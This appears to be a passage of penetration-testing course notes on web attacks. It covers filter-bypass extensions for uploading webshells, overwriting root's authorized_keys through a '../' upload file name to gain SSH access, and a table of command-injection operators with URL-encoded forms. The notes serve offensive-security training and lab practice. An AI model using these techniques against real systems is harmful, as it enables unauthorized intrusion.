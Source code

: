 ### File Upload
> **Notes:**
> * If `.asp` or `.aspx` are allowed upload a webshell as **[p0wny shell](https://github.com/flozz/p0wny-shell)**
> * If `.php` file is not allowed try:
> 	* `.pHP`
> 	* `.phps`
> 	* `.php7`
> 	* `.phtml`
> 	* `.phar`

If we can upload a file and include `../` in the file name, maybe we can overwrite the **authorized_keys**:

```bash
kali@kali:~$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): fileup
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in fileup
Your public key has been saved in fileup.pub
...

kali@kali:~$ cat fileup.pub > authorized_keys
```

![](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PWKR/imgs/commonwebattacks/999ddab4c6543dc3d727618bc14ed495-cwa_fu_burprelsshcom.png)

SSH can throw an error if it cannot verify the host key it saved previously. If this happen, remove `~/.ssh/known_hosts`

```bash
kali@kali:~$ rm ~/.ssh/known_hosts

kali@kali:~$ ssh -p 2222 -i fileup root@mountaindesserts.com
The authenticity of host [mountaindesserts.com]:2222 ([192.168.50.16]:2222) cant be established.
ED25519 key fingerprint is SHA256:R2JQNI3WJqpEehY2Iv9QdlMAoeB3jnPvjJqqfDZ3IXU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
...
root@76b77a6eae51:~#
```

### Command Injection
| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command** |
| ---- | ---- | ---- | ---- |
| Semicolon | `;` | `%3b` | Both |
| New Line | `\n` | `%0a` | Both |
| Background | `&` | `%26` | Both (second output generally shown first) |
| Pipe | `\|` | `%7c` | Both (only second output is shown) |
| AND | `&&` | `%26%26` | Both (only if first succeeds) |
| OR | `\|\|` | `%7c%7c` | Second (only if first fails) |
| Sub-Shell | ` `` ` | `%60%60` | Both (Linux-only) |
| Sub-Shell | `$()` | `%24%28%29` | Both (Linux-only) |
